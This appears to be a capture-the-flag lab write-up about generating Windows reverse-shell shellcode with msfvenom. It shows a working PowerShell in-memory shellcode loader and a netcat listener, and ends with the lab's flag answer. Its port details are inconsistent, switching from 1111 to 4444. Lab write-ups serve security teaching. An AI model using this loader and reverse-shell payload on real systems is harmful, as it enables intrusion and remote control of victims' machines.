 ### Grasping the Fundamentals of Shellcode

Shellcode, a small piece of code commonly used in exploits, typically enables remote access to compromised systems. It’s usually written in assembly language and serves to execute commands or gain control over the target system. To make use of shellcode in a penetration testing scenario, I began by exploring how to create and deploy it effectively.

### Generating Reverse Shellcode

For my demonstration at the conference, I needed to generate shellcode for a reverse shell—a type of payload where the target machine initiates a connection back to the attacker’s system. This technique helps evade detection since the connection is made from inside the target’s network. 

To generate the reverse shell, I used **msfvenom**, a tool that facilitates the creation of payloads. The command I used was:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```

#### Command Breakdown:

- `-p windows/x64/shell_reverse_tcp`: This specifies the reverse shell payload for Windows x64 systems.
- `LHOST=ATTACKBOX_IP`: This sets the IP address of my attack machine, where the reverse shell will connect.
- `LPORT=1111`: This designates the listening port on my machine.
- `-f powershell`: This formats the output as a PowerShell script, suitable for execution on Windows systems.

The output generated by this command is a hex-encoded byte array representing the actual shellcode, ready for deployment on the target system.

### Executing Shellcode with PowerShell

Once the reverse shell was generated, I needed to execute it on the target system. PowerShell provided a convenient way to do this. To achieve this, I wrote a PowerShell script that would:

1. Allocate memory for the shellcode.
2. Copy the shellcode into the allocated memory.
3. Execute the shellcode by creating a new thread.

The script relied on Windows API functions such as `VirtualAlloc` and `CreateThread` to manage memory and execution. Below is an example of the PowerShell script structure:

```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@
Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@
Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@
Add-Type $CrtThread   
```

### Detailed Explanation of the Script:

This script uses three C# classes in PowerShell to call the necessary Windows API functions:

- **VirtualAlloc**: Allocates memory to store the shellcode.
- **CreateThread**: Starts a new thread to execute the shellcode.
- **WaitForSingleObject**: Waits for the shellcode to complete before proceeding.

To load and execute the shellcode in memory, I used the following code:

```powershell
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

- `$buf`: This array holds the actual shellcode.
- The `VirtualAlloc` function allocates space in memory for the shellcode.
- `CreateThread` initiates the shellcode in a new thread.
- `WaitForSingleObject` pauses the script until the shellcode has finished executing.

### Listening for the Reverse Shell

On my attack machine, I needed to set up a listener to catch the incoming connection. I used **Netcat** (`nc`), a simple and powerful tool for this task. The command I used to listen on port 1111 was:

```bash
nc -nvlp 1111
```

This command listens for a connection from the target machine on port 1111. Once the shellcode is executed, the reverse shell will connect back to my attack machine.

### Testing and Troubleshooting

After deploying the shellcode on the target machine using PowerShell, I was able to issue commands like `dir` to list the directories on the target system. However, after some time, the connection stopped. Upon investigation, I realized the IP and port settings had been altered in the shellcode. I fixed the values to reflect the correct IP (`ATTACKBOX_IP`) and port (`4444`), and upon re-execution, I successfully regained access to the system.

### Finally...

Through this process, I demonstrated how to generate, deploy, and manage shellcode for reverse shells. This technique is crucial for bypassing firewalls and intrusion detection systems by ensuring the connection is initiated from within the target network. It also highlights the importance of maintaining careful control over the execution environment, especially when working with remote shells.

**Answers**

*What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the C:\Users\glitch\Desktop directory. You can view the content of the flag by using the command type C:\Users\glitch\Desktop\flag.txt.* **AOC{GOT _MY_ACCESS_B@CK007}**
